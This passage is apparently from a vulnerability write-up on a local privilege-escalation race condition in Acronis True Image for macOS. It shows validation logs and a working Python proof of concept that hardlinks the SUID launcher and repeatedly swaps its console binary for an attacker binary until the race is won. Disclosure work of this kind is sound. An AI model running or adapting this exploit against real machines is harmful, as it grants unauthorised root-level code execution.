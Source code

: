 We can see that the requirement string is `anchor apple generic and certificate leaf [subject.CN] = "Developer ID Application: Acronis International GmbH (ZU2TV78AA6)`

Running the application with a hardlink shows that the SUID binary will try and run the "console" application from the same path as the hardlink, but the security checks fail if you use a different binary 
```text
running launcher with privileges...
2023-01-03 23:21:36.252 run [1247:17898] Requirement of the current process retrieved
2023-01-03 23:21:36.255 run [1247:17898] Path validation failed: /Users/test/Desktop/console
Unable to launch ' /Users/test/Desktop/console'
```

Running the application from the real path shows that everything passes and runs okay. 
```text
running launcher with privileges...
2023-01-04 01:16:01.429 Acronis True Image [1417:54396] Requirement of the current process retrieved
2023-01-04 01:16:01.696 Acronis True Image [1417:54396] Path validation success: /Applications/Acronis True Image.app/Contents/MacOS/console running main application..
export USER_ID="501"; "/Applications/Acronis True Image. app/Contents/MacOS/console' -AppleLocale en_US -AppleLanguages "(en-US)" -UserGuard:501 &
```
### Exploiting the Vulnerability

To exploit the vulnerability we need to win the race. Because the application doesn't crash, and can be run an arbitrary amount of times, we can brute force the timing we need to win the race.

First we set up the hardlinks so that we can run the application in our local directory that we have control over. 

```python
import os 
import time 

os.link("/Applications/Acronis True Image.app/Contents/MacOS/Acronis True Image", "./run")
os.link("/Applications/Acronis True Image.app/Contents/MacOS/console", "./console")
```

Then we define a delay variable that we are going to increase until the vulnerability is successly exploited. We then run the SUID binary and switch out the console binary with ever increasing wait times until we successfully exploit the race condition. 

```python
delay = 0.01 
while True: 
	os.popen("./run")
	time.sleep(delay)
	os.unlink("./console")
	os.link("./a.out", "./console")
	time.sleep(1.0)
	os.unlink("./console")
	os.link("Applications/Acronis True Image.app/Contents/MacOS/console", "./console")
	delay += 0.01 
```
We will know when it succeeds because the PoC will write a file called "pass" to the folder that the script was run from. From here we clean up and delete all of our hardlinks and exit the script. 
```python
	if os.path.exists("./pass"):
		os.unlink("./console")
		os.unlink("./run")
		os.unlink("./pass")
		exit()
```
